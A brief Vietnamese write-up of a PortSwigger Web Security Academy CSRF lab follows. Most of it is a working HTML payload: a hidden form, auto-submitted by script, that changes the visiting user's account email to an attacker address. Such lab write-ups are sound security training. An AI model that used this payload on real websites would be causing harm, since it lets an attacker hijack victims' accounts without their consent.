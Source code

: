 # [Lab: CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses)

Lỗ hổng: Không có CSRF token

Vào exploit server để body như dưới rồi up lên là xong.

```html
<html>
    <body>
        <form action="https://0a50003f03178be2c14ffc7e00bb0075.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

Khi user truy cập vào trang exploit sẽ kích hoạt gửi form đổi email
